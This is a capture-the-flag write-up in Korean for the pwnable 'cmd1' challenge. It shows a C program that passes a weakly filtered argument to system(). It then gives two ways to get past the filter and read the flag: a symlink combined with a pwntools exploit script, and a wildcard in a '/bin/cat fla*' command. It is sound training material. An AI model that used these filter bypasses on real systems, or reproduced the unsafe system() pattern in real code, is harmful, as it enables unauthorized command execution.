



cmd1 Solution
==============



PATH 환경 변수를 사용하는 문제인 것 같다. 서버에 접속해 확인해보자.



이전 문제들처럼 cmd1과 cmd1.c을 이용해 flag를 읽어야 한다. cmd1.c 의 내용을 보자.

- cmd1.c

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

간단한 코드다. PATH 환경 변수 값을 /thankyouverymuch 로 변경 후 argv[1] 값에 "flag", "sh", "tmp" 가 들어있지 않으면 argv[1] 을 명령어로서 실행해준다. PATH가 변경되었기 때문에 cat과 같은 명령어를 사용할 때 절대경로를 사용해야 한다. 나는 /tmp 에 새로운 디렉터리를 만들고 /home/cmd1/flag 의 심볼릭 링크를 필터에 걸리지 않는 이름을 갖도록 생성해 /bin/cat 으로 내용을 읽을 수 있었다. 

- exploit.py

```python
from pwn import *

argv = ['a', "/bin/cat a"]

p = process(executable='/home/cmd1/cmd1', argv=argv)

p.interactive()
```

"a"라는 이름으로 /home/cmd1/flag의 심볼릭 링크를 /tmp/(임의 디렉터리) 에 생성 후 위 exploit 코드를 실행했다.



"mommy now ..." 가 이번 문제의 flag이다. 

----------------------------------

문제를 풀고 나서 조금 찝찝한 기분이 들어 다른 사람들의 풀이를 찾아봤더니 *(와일드 카드)를 사용해 풀은 사람이 많았다. 

```bash
$ ./cmd1 "/bin/cat fla*"
```

위와 같이 명령어를 작성하면 필터에 걸리지 않고 flag를 읽을 수 있었다. 와일드 카드의 개념은 알고 있었으나 여기에 적용할 생각은 하지 못 하고 심볼릭 링크만 떠올랐다. 다시 한 번 새겨두면 좋을 것 같다.